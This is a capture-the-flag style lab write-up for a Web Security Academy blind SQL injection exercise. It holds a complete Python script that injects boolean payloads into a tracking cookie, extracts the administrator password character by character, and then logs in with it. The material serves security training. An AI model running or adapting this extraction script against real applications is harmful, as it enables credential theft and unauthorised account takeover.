

# Lab: Blind SQL injection with conditional responses

## Description
```
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a Welcome back message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.
```

## PoC
```py
import string
import requests
from bs4 import BeautifulSoup

candidate = string.ascii_lowercase+string.digits

session = requests.session()

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
burp0_headers = {"Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = session.get(burp0_url, headers=burp0_headers)
cookies = str(response.cookies)
TrackingId=cookies.split("TrackingId=")[1].split(" ")[0]
soup = BeautifulSoup(response.text, 'html.parser')
title = soup.title.string
print(f"title : {title}")
print(f"TrackingId : {TrackingId}")

len = 0
# len
attack_payload = "' AND (SELECT length(password) FROM users WHERE username='administrator')={len} --"
print(f"attack_payload : {attack_payload}")
while True:
    attack_payload = f"' AND (SELECT length(password) FROM users WHERE username='administrator')={len} --"
    burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/filter?category=Gifts"
    burp0_cookies = {"TrackingId": f"{TrackingId}{attack_payload}", "session": "LdtCGHzF4jvVnHxe46avMTNk7HsNzzFV"}
    burp0_headers = {"Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
    response = session.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

    if "Welcome" in response.text:
        break
    len = len + 1
print(f"password length : {len}")

password = ""

# password
attack_payload = "' AND (SELECT SUBSTRING(password,{i},1) FROM users WHERE username='administrator')='{data}"
print(f"attack_payload : {attack_payload}")

for i in range(1, len+1):
    for data in candidate:
        attack_payload = f"' AND (SELECT SUBSTRING(password,{i},1) FROM users WHERE username='administrator')='{data}"
        burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/filter?category=Gifts"
        burp0_cookies = {"TrackingId": f"{TrackingId}{attack_payload}", "session": "LdtCGHzF4jvVnHxe46avMTNk7HsNzzFV"}
        burp0_headers = {"Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
        response = session.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

        if "Welcome" in response.text:
            password = password + data
            break
    print(f"administrator password = {password}")

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/login"
burp0_headers = {"Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Referer": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = session.get(burp0_url, headers=burp0_headers)
cookies = response.cookies
soup = BeautifulSoup(response.text, 'html.parser')
csrf_input = soup.find('input', {'name': 'csrf'})
csrf_token = csrf_input['value'] if csrf_input else None
print(f"CSRF Token: {csrf_token}")

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/login"
burp0_headers = {"Cache-Control": "max-age=0", "Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Origin": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Referer": "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net/login", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
burp0_data = {"csrf": csrf_token, "username": "administrator", "password": password}
print(f"attack_payload : {burp0_data}")
session.post(burp0_url, headers=burp0_headers, cookies=cookies, data=burp0_data)

burp0_url = "https://❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚❚.web-security-academy.net:443/"
burp0_headers = {"Sec-Ch-Ua": "\"Chromium\";v=\"131\", \"Not_A Brand\";v=\"24\"", "Sec-Ch-Ua-Mobile": "?0", "Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "ko-KR,ko;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Sec-Fetch-Site": "none", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=0, i"}
response = session.get(burp0_url, headers=burp0_headers, cookies=cookies)

soup = BeautifulSoup(response.text, 'html.parser')
status_p = soup.select_one('div.widgetcontainer-lab-status > p')
status_text = status_p.text if status_p else "Status not found"
print(f"Lab : {status_text}")
```

## Result
